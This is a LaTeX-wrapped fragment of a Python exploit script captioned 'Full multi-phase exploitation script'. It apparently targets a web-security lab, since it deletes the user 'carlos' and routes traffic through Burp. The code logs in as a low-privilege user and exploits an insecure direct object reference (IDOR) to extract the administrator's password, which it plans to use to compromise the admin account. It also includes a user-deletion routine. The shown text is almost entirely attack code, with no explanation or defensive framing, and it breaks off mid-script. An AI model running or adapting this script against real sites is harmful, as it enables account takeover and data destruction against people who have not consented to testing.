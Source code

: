 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=python,caption={Full multi-phase exploitation script}]
    except requests.RequestException as e:
        print(f"[-] Error deleting user: {e}")
        return False

def main():
    """Main execution flow."""
    banner()

    parser = argparse.ArgumentParser(
        description="User ID Param + Password Disclosure Exploit"
    )
    parser.add_argument("url", help="Target base URL")
    parser.add_argument(
        "--target", "-t",
        default="carlos",
        help="Username to delete (default: carlos)"
    )
    parser.add_argument(
        "--admin-user",
        default="administrator",
        help="Admin username to compromise (default: administrator)"
    )
    parser.add_argument(
        "--no-proxy",
        action="store_true",
        help="Disable Burp proxy routing"
    )

    args = parser.parse_args()

    # Normalize URL
    base_url = args.url.rstrip('/')
    if not base_url.startswith(('http://', 'https://')):
        base_url = 'https://' + base_url

    print(f"[*] Target: {base_url}")
    print(f"[*] Admin to compromise: {args.admin_user}")
    print(f"[*] User to delete: {args.target}")

    if args.no_proxy:
        global PROXIES
        PROXIES = {}
        print("[*] Proxy disabled")

    # ============================================
    # PHASE 1: Login as low-privilege user
    # ============================================
    print("\n" + "="*60)
    print("PHASE 1: Authentication (Low-Privilege User)")
    print("="*60)

    user_session = requests.Session()
    user_session.verify = False
    user_session.headers.update({
        'User-Agent': 'IDORPasswordExploit/2.0'
    })

    if not login(user_session, base_url, DEFAULT_USERNAME, DEFAULT_PASSWORD):
        print("[-] Failed to login as low-privilege user. Exiting.")
        sys.exit(1)

    # ============================================
    # PHASE 2: Exploit IDOR to get admin password
    # ============================================
    print("\n" + "="*60)
    print("PHASE 2: IDOR Exploitation + Password Extraction")
    print("="*60)

    admin_password = exploit_idor_get_password(
        user_session,
        base_url,
        args.admin_user
    )


\end{verbatim}
\end{document}

